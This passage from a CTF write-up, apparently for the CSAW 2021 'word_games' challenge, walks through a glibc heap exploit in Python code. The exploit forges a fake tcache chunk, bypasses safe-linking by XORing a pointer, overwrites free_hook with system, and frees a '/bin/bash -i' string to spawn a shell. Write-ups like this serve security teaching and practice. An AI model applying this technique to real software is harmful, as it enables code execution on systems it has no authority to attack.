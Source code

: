Eventually, we want to get malloc() to return a pointer to free_hook. We will do this by constructing a fake chunk, free it, and then change it to point to free_hook.

```python
    # Create our fake chunk. 0x21 is the size and flags, 0xdeadbeef is garbage contents of chunk.
    suggest(r, 0x40, b"FAKECHNK" + p64(0x21)+p64(0xdeadbeef))
```

Now we have a free'd fake chunk, and thanks to our heap leak we know it's address. So we will use our arbitrary free to free our fake chunk.

```python
    fakechunk = heap_leak + (0x55555555bc70 - 0x55555555b940)
    
    # Free our fake chunk!
    arbitrary_free(r, fakechunk, garbage_ll_addr)
```

Now we want to get the 0x40 chunk (a subset of which is our fake chunk) so we can corrupt our fake chunk with a 'safely linked' pointer to free_hook.

```python
    # Now free the rest of the chunks, including the 0x40 chunk that contains our fake one
    scrap_my_list(r)

    # Now we get our FAKECHNK chunk back (this CONTAINS the forged chunk, which
    # is now in the tcache)
    #
    # We will overwrite the fwd pointer in tcache with a pointer to free_hook
    # .. but we have to do the glibc 2.32 'safe linking' thing:
    safe_ptr = (free_hook-0x10) ^ (fakechunk >> 12)
    suggest(r, 0x40, b"FAKECHNK" + p64(0) + p64(safe_ptr)) 
```

For more on safe linking: https://www.researchinnovations.com/post/bypassing-the-upcoming-safe-linking-mitigation


```python
    # We'll free this later to trigger system(/bin/bash) ... ;)
    suggest(r, 0x60, b"/bin/bash -i\0")
    suggest(r, 0x18, p64(0xdeadbeef))

    # This time malloc gave us our fake chunk
    suggest(r, 0x18, p64(0xdeadbeef))

    # malloc returns our pointer to free_hook, we overwrite with system
    suggest(r, 0x18, p64(0xdeadbeef)*2+p64(system))
```

And we are done:

```python
r.sendline("2") # scrap list, /bin/bash gets free'd
r.interactive()
```

See [word_games.py](https://github.com/cscosu/ctf-writeups/blob/master/2021/csaw_quals/word_games/word_games.py)